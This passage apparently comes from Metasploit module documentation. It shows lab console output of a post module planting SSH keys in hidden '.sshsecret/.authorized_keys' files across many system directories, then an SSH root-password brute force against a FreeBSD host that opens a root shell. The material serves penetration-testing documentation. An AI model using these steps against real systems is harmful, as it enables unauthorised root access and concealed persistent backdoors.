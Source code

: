     [*] Max line length is 65537
    [*] Writing 380 bytes in 1 chunks of 1458 bytes (octal-encoded), using printf
    [+] Key Added
    [*] Creating /var/run/pulse/.sshsecret/.authorized_keys
    [*] Max line length is 65537
    [*] Writing 380 bytes in 1 chunks of 1458 bytes (octal-encoded), using printf
    [+] Key Added
    [*] Creating /var/spool/lpd/.sshsecret/.authorized_keys
    [*] Max line length is 65537
    [*] Writing 380 bytes in 1 chunks of 1458 bytes (octal-encoded), using printf
    [+] Key Added
    [*] Creating /var/spool/mail/.sshsecret/.authorized_keys
    [*] Max line length is 65537
    [*] Writing 380 bytes in 1 chunks of 1458 bytes (octal-encoded), using printf
    [+] Key Added
    [*] Creating /var/spool/postfix/.sshsecret/.authorized_keys
    [*] Max line length is 65537
    [*] Writing 380 bytes in 1 chunks of 1458 bytes (octal-encoded), using printf
    [+] Key Added
    [*] Creating /var/spool/uucp/.sshsecret/.authorized_keys
    [*] Max line length is 65537
    [*] Writing 380 bytes in 1 chunks of 1458 bytes (octal-encoded), using printf
    [+] Key Added
    [*] Creating /var/www/.sshsecret/.authorized_keys
    [*] Max line length is 65537
    [*] Writing 380 bytes in 1 chunks of 1458 bytes (octal-encoded), using printf
    [+] Key Added
    [*] Post module execution completed


### FreeBSD9 (root)

Several sshd_config mods were needed to allow root login, and enable the service to run correctly.

Get Initial Access

    msf > use auxiliary/scanner/ssh/ssh_login
    msf auxiliary(ssh_login) > set username root
    username => root
    msf auxiliary(ssh_login) > set password password
    password => password
    msf auxiliary(ssh_login) > set rhosts 192.168.2.130
    rhosts => 192.168.2.130
    msf auxiliary(ssh_login) > exploit
    
    [*] SSH - Starting bruteforce
    [+] SSH - Success: 'root:password' 'uid=0(root) gid=0(wheel) groups=0(wheel),5(operator) FreeBSD freebsd9 9.0-RELEASE FreeBSD 9.0-RELEASE #0: Tue Jan  3 07:46:30 UTC 2012     root@farrell.cse.buffalo.edu:/usr/obj/usr/src/sys/GENERIC  amd64 '
    [!] No active DB -- Credential data will not be saved!
    [*] Command shell session 1 opened (192.168.2.229:41724 -> 192.168.2.130:22) at 2016-06-19 22:10:59 -0400
    [*] Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed
